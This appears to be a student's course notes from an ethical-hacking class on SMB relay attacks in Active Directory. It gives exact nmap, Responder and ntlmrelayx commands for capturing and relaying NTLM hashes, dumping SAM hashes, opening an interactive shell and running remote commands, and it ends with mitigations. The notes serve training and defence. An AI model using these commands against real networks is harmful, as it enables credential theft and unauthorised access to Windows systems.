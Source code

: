 ___
### What is SMB Relay?
- Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

### Requirements 
- SMB signing must be disabled or not enforced on the target.
- Relayed user credentials must be admin on machine for any real value.

### Identify Hosts Without SMB Signing

```
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025150646.png)

### SMB Relay

Step 1 : Run Responder
```
sudo mousepad /etc/responder/Responder.conf
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025150836.png)

Step 2 : Run Responder
```
sudo responder -I tun0 -dwP
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151048.png)

Step 3 : Set up your relay
```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151158.png)
Step 4 : An Event Occurs...
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151309.png)

Step 5 : Win
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151426.png)

Other Wins 
```
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
- We get an interactive shell with the SAM dump by using -i in the command.
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151709.png)

```
nc 127.0.0.1 11000
```
- We can connect to this machine, we can look at shares, we can look through the file system and we can do a lot of different stuff via the shell that we have created.
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025151905.png)

- We can also do commands using the -c "whoami" for example and we can do more malicious things such as add a local user with admin access and have more control on the system but we dont need to do that as the SAM dump we get thats enough.
```
sudo ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```
![](Courses/TCM%20Practical%20Ethical%20Hacking/Domain%207%20-%20Active%20Directory%20Initial%20Attack%20Vectors/assests/Pasted%20image%2020251025152349.png)

### Mitigation Strategies:
1 Enable SMB Signing on all devices
- Pro: completely stops the attack
- Con: Can cause performance issues with file copies
2 Disable NTLM authentication on network
- Pro: Completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM
3 Account tiering:
- Pro: Limits domain admins to specific tasks( eg only log onto servers with need for DA)
- Con: Enforcing the policy may be difficult
4 Local admin restriction:
- Pro: Can prevent a lo of lateral movement
- Con: Potential increase in the amount of service desk tickets

